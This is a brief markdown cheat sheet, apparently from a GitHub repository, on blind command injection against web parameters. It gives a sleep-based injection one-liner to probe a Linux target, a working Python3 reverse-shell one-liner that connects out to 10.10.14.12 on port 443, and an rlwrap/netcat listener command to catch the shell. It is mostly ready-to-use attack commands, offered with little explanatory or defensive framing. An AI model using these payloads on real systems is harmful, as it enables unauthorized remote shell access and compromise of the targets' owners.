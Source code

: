 # Blind Command Injection Test

Testing for blind command injection  

If you suspect a web parameter is vulnerable to command injection but the response is not reflecting any commands injected, test with sleep condition.  

### Bash oneliner if condition test command is going to wait for 10 seconds sleep if file does exist on the target.
```bash
;if [ -f /usr/bin/python3 ]; then sleep 10; else sleep 0; fi
```
* Note: URL encode the injected command before sending to target.  

If the above command results in a response taking 10+ seconds to return, good case for blind command injection on linux target.

### Below is oneline python3 reverse shell
```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.12",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
![Command Injection POST Request](command-injections.png)

### Before sending above Python3 reverse shell command injection, have netcat ready and listening on port 443.
```bash
rlwrap nc -nvlp 443
```
![NetCat listening on port 443 for incoming reverse shell from target](netcat443.png)
